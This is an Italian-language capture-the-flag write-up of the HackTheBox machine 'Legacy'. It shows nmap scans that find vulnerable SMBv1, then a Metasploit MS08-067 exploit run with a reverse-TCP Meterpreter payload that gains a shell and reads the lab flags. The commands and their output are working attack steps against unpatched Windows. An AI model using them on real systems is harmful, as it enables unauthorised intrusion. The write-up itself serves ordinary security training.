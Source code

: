 ```yaml
---
layout: default
---
```


# Legacy (HTB)

Anche a questo giro come primo approccio lancio una scansione TCP SYN sulle porte con <span style="color:#46eac7">nmap</span>, dove cerco di farmi dare anche la versione dei servizi.

```bash
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sS -sV 10.10.10.4      
[sudo] password for kali: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 10:26 EST
Nmap scan report for 10.10.10.4
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (reset)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Microsoft Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.51 seconds
```
\
E come in <a href="{{ site.ctf.blue }}" target="_blank">Blue (HTB)</a> noto la <span style="color:#46eac7">porta 445</span> per il <span style="color:#46eac7">protocollo SMB</span>, in tandem con la 139 per il protocollo NetBIOS. Lancio quindi una nuova scansione utilizzando gli script <span style="color:#46eac7">smb-os-discovery</span> e <span style="color:#46eac7">smb-protocols</span> per ottenere qualche informazione in più.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p 445 --script smb-os-discovery,smb-protocols 10.10.10.4 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 10:27 EST
Nmap scan report for 10.10.10.4
Host is up (0.043s latency).

PORT    STATE SERVICE
445/tcp open  microsof0

Host script results:
| smb-protocols: 
|   dialects: 
|_    NT LM 0.12 (SMBv1) [dangerous, but default]
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2023-11-29T19:24:57+02:00

Nmap done: 1 IP address (1 host up) scanned in 10.41 seconds
```
\
Memore della macchina precedente provo a lanciare subito <span style="color:#46eac7">nmap</span> per verificare se è in grado di rilevare qualche vulnerabilità con lo script <span style="color:#46eac7">vuln</span>.

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -p 445 --script vuln 10.10.10.4                          
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-24 10:32 EST
Nmap scan report for 10.10.10.4
Host is up (0.043s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-054: false
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED

Nmap done: 1 IP address (1 host up) scanned in 24.41 seconds
```
\
Individuata la <span style="color:#46eac7">CVE-2008-4250</span>, una ricerca su <a href="https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2008-4250" target="_blank">Mitre</a> mi redireziona al <a href="https://learn.microsoft.com/en-us/security-updates/securitybulletins/2008/ms08-067" target="_blank">Microsoft Security Bulletin MS08-067</a>. Cerco <span style="color:#46eac7">MS08-067</span> su <span style="color:#46eac7">Metasploit</span> per vedere se esite qualche exploit noto, lo trovo e lo lancio.

```bash
┌──(kali㉿kali)-[~]
└─$ msfconsole -q                       
msf6 > search ms08-067

Matching Modules
================

   #  Name                                 Disclosure Date  Rank   Check  Description
   -  ----                                 ---------------  ----   -----  -----------
   0  exploit/windows/smb/ms08_067_netapi  2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption


Interact with a module by name or index. For example info 0, use 0 or use exploit/windows/smb/ms08_067_netapi

msf6 > use  0
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/
                                       basics/using-metasploit.html
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.0.2.15        yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > set RHOSTS 10.10.10.4
RHOSTS => 10.10.10.4
msf6 exploit(windows/smb/ms08_067_netapi) > set LHOST 10.10.14.12
LHOST => 10.10.14.12
msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.10.10.4:1032) at 2023-11-24 10:38:33 -0500

meterpreter > pwd
C:\WINDOWS\system32
```
\
Ora che sono dentro al sistema target procedo ad esplorarlo un po'. Trovare le flag di <span style="color:#46eac7">user</span> e <span style="color:#46eac7">root</span> è molto semplice.

```bash
meterpreter > cd \C:\\\

[--SNIP--]

meterpreter > ls
Listing: C:\Documents and Settings\john\Desktop
===============================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:19:49 -0400  user.txt

meterpreter > cat user.txt 
********************************

[--SNIP--]

meterpreter > ls
Listing: C:\Documents and Settings\Administrator\Desktop
========================================================

Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100444/r--r--r--  32    fil   2017-03-16 02:18:50 -0400  root.txt

meterpreter > cat root.txt 
********************************
```